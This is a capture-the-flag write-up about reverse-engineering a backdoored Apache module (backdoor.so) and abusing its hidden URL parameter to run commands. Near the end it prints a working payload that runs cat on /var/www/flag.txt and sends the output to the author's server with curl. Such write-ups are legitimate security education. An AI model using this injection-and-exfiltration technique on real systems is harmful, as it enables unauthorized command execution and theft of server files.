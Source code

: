 Hello guys ,

So i will explain my team solution for this task 

It was really amazing task because its reverse + web so it need lot of knowledge to solve it

So first but check the task 

![capture d ecran 2017-10-19 a 11 23 25 am](https://user-images.githubusercontent.com/7364615/31766621-fdbd0a96-b4bf-11e7-9d15-05c19c028ec8.png)

Next we have backdoor.so library used with the apache server 

If we need to solve this should first understand the backdoor.so how it works


So it check first for GET\x00ndex.html 

![capture d ecran 2017-10-19 a 11 30 37 am](https://user-images.githubusercontent.com/7364615/31766872-f6d81eea-b4c0-11e7-86ee-08834d0567d4.png)

![capture d ecran 2017-10-19 a 11 31 12 am](https://user-images.githubusercontent.com/7364615/31766893-09930b80-b4c1-11e7-8ee6-dd843d21a15e.png)

OK so we need to send  https://indianer.flatearth.fluxfingers.net//x00ndex.html as first to make it all work 

then there is system function that get argument from url , but its not clear what name is this arg

so we make our prog to get the arg name 

![capture d ecran 2017-10-19 a 11 33 34 am](https://user-images.githubusercontent.com/7364615/31766979-60bdb798-b4c1-11e7-912d-2ab3d29b23aa.png)

and it was "dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp" So this is the second part 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=

what Next?

first what we tried to do it to understand where the flag will be shown

We tried first simple check like https://indianer.flatearth.fluxfingers.net/index.html_dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=lsdpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=ls

but for sure no output there :(

After some check we get that the '_' is replaced with ' '

So no need space here 

![capture d ecran 2017-10-19 a 11 37 02 am](https://user-images.githubusercontent.com/7364615/31767126-da3ef960-b4c1-11e7-91e3-776e15b18598.png)

Also flag we be not printed here in the web part 

So if we make the flag redirected  somewhere it maybe will work 

So curl is the best solution , but we figure this out when the ctf already end :( and we didnt get any points for this task

Anyway it was Cool task to improve our skills 

Ok lets continue !

So we need curl? ok so we will send the flag to our server using curl 

So our last solution was to make this request and its work :D 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_serverip/`cat_/var/www/flag.txt`


![capture d ecran 2017-10-19 a 11 15 22 am](https://user-images.githubusercontent.com/7364615/31767276-57b35d0a-b4c2-11e7-8f09-1a162d4cc949.png)

No points but we did it :D 


Thanks 
